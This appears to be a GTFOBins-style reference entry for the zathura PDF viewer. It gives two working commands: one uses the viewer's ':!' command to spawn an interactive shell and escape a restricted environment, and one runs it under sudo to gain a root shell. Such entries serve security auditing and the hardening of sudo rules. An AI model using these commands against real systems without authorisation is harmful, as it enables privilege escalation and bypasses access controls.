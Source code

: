 # GTFOBin: zathura

The interaction happens in a GUI window, while the shell is dropped in the terminal.

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
zathura
:! /bin/sh -c 'exec /bin/sh 0<&1'
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo zathura
:! /bin/sh -c 'exec /bin/sh 0<&1'
```